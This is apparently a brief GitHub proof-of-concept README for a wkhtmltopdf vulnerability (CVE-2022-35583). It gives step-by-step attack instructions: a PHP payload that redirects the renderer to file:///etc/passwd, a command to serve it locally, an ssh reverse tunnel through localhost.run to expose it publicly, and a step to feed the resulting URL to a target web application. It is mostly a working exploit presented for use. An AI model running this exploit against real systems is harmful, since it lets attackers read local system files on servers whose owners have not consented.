 # wkhtmltopdf 
 
Vulnerable to RCE
[CVE-2022-35583]('https://github.com/wkhtmltopdf/wkhtmltopdf/issues/5249')

1. SetUp Payload index.php

```php

<html>
<body>
<?php
	header('location:file:///etc/passwd');
?>
</body>
</html>

```

2. Start local DEV server in index.php directory

```curl 
php -S 0.0.0.0:1337
```

3. Setup remote ssh tunnel to local-server to make it accessable for the internet

```bash
ssh -R 80:192.168.178.66:1337 nokey@localhost.run
```

4. Request generated ssh url into web-application

